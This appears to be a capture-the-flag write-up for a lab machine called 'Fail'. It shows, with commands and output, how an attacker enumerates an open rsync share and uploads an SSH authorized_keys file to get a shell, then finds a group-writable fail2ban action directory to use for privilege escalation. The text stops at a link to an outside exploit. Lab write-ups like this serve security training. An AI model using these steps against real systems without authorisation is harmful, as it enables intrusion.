 ```yaml
---
layout: post
title: PG | Fail
subtitle: You shall not pass.
---
```


# Nmap Scan Results

~~~
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-24 16:26 UTC
Nmap scan report for 192.168.194.126
Host is up (0.015s latency).
Not shown: 65533 closed tcp ports (reset)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 74:ba:20:23:89:92:62:02:9f:e7:3d:3b:83:d4:d9:6c (RSA)
|   256 54:8f:79:55:5a:b0:3a:69:5a:d5:72:39:64:fd:07:4e (ECDSA)
|_  256 7f:5d:10:27:62:ba:75:e9:bc:c8:4f:e2:72:87:d4:e2 (ED25519)
873/tcp open  rsync   (protocol version 31)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.36 seconds
~~~

# Service Enumeration

## Rsync (TCP/873)
Rsync is a directory sharing protocol used on Unix systems

The protocol can be scanned for available folders using an nmap script
~~~
nmap -sV --script "rsync-list-modules" -p 873 192.168.194.126
~~~
~~~
PORT    STATE SERVICE VERSION
873/tcp open  rsync   (protocol version 31)
| rsync-list-modules: 
|_  fox                 fox home
~~~

The contents of the fox folder revealed the contents of an empty home directory
~~~
rsync -av --list-only rsync://192.168.194.126/fox
~~~
~~~
receiving incremental file list
drwxr-xr-x          4,096 2021/01/21 14:21:59 .
lrwxrwxrwx              9 2020/12/03 20:22:42 .bash_history -> /dev/null
-rw-r--r--            220 2019/04/18 04:12:36 .bash_logout
-rw-r--r--          3,526 2019/04/18 04:12:36 .bashrc
-rw-r--r--            807 2019/04/18 04:12:36 .profile

sent 20 bytes  received 136 bytes  312.00 bytes/sec
total size is 4,562  speedup is 29.24
~~~

The contents of the fox folder can be retrieved and stored locally using the command
~~~
rsync -av rsync://192.168.194.126/fox ./rsyn_shared
~~~
These files reveal no useful information to further our progress.

Rsync also allows us to upload files, therefore we can generate a SSH key (as we have seen SSH TCP port 22 is enabled), then upload to the key to the machine using Rsync to
give us a remote connection to the machine.

# Exploitation

1. Generate SSH Key
~~~
┌──(kali㉿kali)-[~/Desktop/Fail]
└─$ ssh-keygen                                       
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/kali/.ssh/id_rsa
Your public key has been saved in /home/kali/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:LvQfnvR+8TxNBfJBl+4vlOWFvrQu5HBkN6lzYPVXszk kali@kali
The key's randomart image is:
+---[RSA 3072]----+
|             .. o|
|            . ++.|
|             +.*=|
|            = *E*|
|      . S  + =.==|
|     . o  . = B.o|
|      . o o= = Bo|
|       . + +o =.=|
|          +.o+...|
+----[SHA256]-----+
~~~

2. Copy our .ssh directory locally
~~~
cp -R /home/kali/.ssh .
~~~

3. Rename id_rsa.pub (our public key) to authorized_keys before transferring to the target
~~~
┌──(kali㉿kali)-[~/Desktop/Fail]
└─$ cd .ssh
┌──(kali㉿kali)-[~/Desktop/Fail/.ssh]
└─$ mv id_rsa.pub authorized_keys
~~~

4. Upload the .ssh file (containing authorized_keys) to Rsync
~~~
rsync -av /home/kali/Desktop/Fail/.ssh rsync://fox@192.168.194.126/fox
~~~

5. SSH into the target machine
~~~
┌──(kali㉿kali)-[~/Desktop/Fail/.ssh]
└─$ ssh -i ./id_rsa fox@192.168.194.126
The authenticity of host '192.168.194.126 (192.168.194.126)' can't be established.
ED25519 key fingerprint is SHA256:mqPCrimr9j626KOGoHM+qxgHUOYD4pu1+4KzhIvu5uA.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:37: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.194.126' (ED25519) to the list of known hosts.
Linux fail 4.19.0-12-amd64 #1 SMP Debian 4.19.152-1 (2020-10-18) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
$ id
uid=1000(fox) gid=1001(fox) groups=1001(fox),1000(fail2ban)
$ 
~~~

# Privilege Escalation

After running Linpeas.sh a directory /etc/fail2ban was identified which is writable by our user

~~~
╔══════════╣ Interesting GROUP writable files (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files                                                                                            
  Group fail2ban:                                                                                                                                                            
/etc/fail2ban/action.d                                                                                                                                                       
/etc/fail2ban/action.d/firewallcmd-ipset.conf
/etc/fail2ban/action.d/nftables-multiport.conf
/etc/fail2ban/action.d/firewallcmd-multiport.conf
/etc/fail2ban/action.d/mail-whois.conf
/etc/fail2ban/action.d/ufw.conf
#)You_can_write_even_more_files_inside_last_directory
~~~

A manual verification of this vulnerability was ran which identified full Read, Write, Execute (RWX) permissions over a file named action.d

~~~
$ find /etc -writable -ls 2>/dev/null
   787482      4 drwxrwxr-x   2 root     fail2ban     4096 Dec  3  2020 /etc/fail2ban/action.d
~~~

After researching exploits for Fail2Ban an exploit I discovered an exploit within /etc/fail2ban/jail.conf [Exploit](https://systemweakness.com/privilege-escalation-with-fail2ban-nopasswd-d3a6ee69db49)